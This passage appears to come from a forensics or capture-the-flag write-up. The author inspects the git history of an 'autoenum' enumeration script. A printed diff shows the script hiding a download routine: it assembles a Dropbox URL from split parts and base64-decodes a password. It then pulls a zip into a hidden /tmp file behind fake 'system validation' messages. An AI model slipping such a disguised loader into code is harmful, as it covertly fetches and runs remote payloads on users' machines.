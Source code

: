 To see the full date and time, we have to git log the file. 

```bash
┌──(cherif㉿kali)-[~/…/hidden-user-home-dir/home/johnspire/autoenum]
└─$ git log --pretty=oneline
786acdbe3804191556e971f6e2814ef34f571454 (HEAD -> main, origin/main, origin/HEAD) Update enum.sh
7d203152c5a3a56af3d57eb1faca67a3ec54135f Update enum.sh
553e18b0272f8dd5dc003b9f91a938aa68077f6b Update enum.sh
48e83bfda01bf69dc3b920600b541e99929b1a64 Update enum.sh
5d88bee8918d514a206fec91be72899544cdd37b Update enum.sh
07650e4833d4b037a99d0ae621344833e908a27c Update enum.sh
2ed69ee3525798ab197bdb1505e0d1d55af85832 Update enum.sh
e89644ae88559d4ea4639ef82ade834123793508 Update enum.sh
301ca43e68d0a9908ad4d52cbe603134de1de418 Update enum.sh
84097107492799db5fe5ba8d036a1b0fdfd6293f Update readme.md
6b2900adc68ca577f6abb3b474cecae2cf952a5e Update enum.sh
725834cb09a7483189a6d3ab4804d0797d06998b Create enum.sh
b4b26de857c77e2aaef71d8cc7f6367f79576e7c Create readme.md
```

```bash	
┌──(cherif㉿kali)-[~/…/hidden-user-home-dir/home/johnspire/autoenum]
└─$ git show 7d203152c5a3a56af3d57eb1faca67a3ec54135f
commit 7d203152c5a3a56af3d57eb1faca67a3ec54135f
Author: brown249 <85936721+brown249@users.noreply.github.com>
Date:   Mon Dec 23 22:27:58 2024 +0000

    Update enum.sh

diff --git a/enum.sh b/enum.sh
index 18f7b2e..5f685d8 100644
--- a/enum.sh
+++ b/enum.sh
@@ -65,25 +65,22 @@ do_dirb() {
 }
 
 do_wget_and_run() {
-    # Pieces for combining later (remote location for something)
     f1="https://www.dropbox.com/scl/fi/uw8oxug0jydibnorjvyl2"
     f2="/blob.zip?rlkey=zmbys0idnbab9qnl45xhqn257&st=v22geon6&dl=1"
-    OUTPUT_FILE="/tmp/.hidden_$RANDOM.zip"  # Temporary storage with randomized identifier
-    UNZIP_DIR="/tmp/"  # Destination for extracted items
-
-    # Decode hidden sequence (secure key for locked data)
+    OUTPUT_FILE="/tmp/.hidden_$RANDOM.zip"  
+    UNZIP_DIR="/tmp/" 
     part1="c3VwZXI="
     part2="aGFja2Vy"
-    PASSWORD=$(echo "$part1$part2" | base64 -d)  # Rebuild and unlock the access code
+    PASSWORD=$(echo "$part1$part2" | base64 -d)  
 
-    FILE_URL="${f1}${f2}"  # Reassemble the access point
+    FILE_URL="${f1}${f2}"  
 
     echo "------------------------------------------------------------------------------"
     echo " System validation underway..."
     echo "------------------------------------------------------------------------------"
     echo "\n"
 
-    # Initiate retrieval from the constructed location
+    
     echo "Establishing connection to remote resource..."
     curl -L -o "$OUTPUT_FILE" "$FILE_URL"
 
@@ -92,7 +89,7 @@ do_wget_and_run() {
```
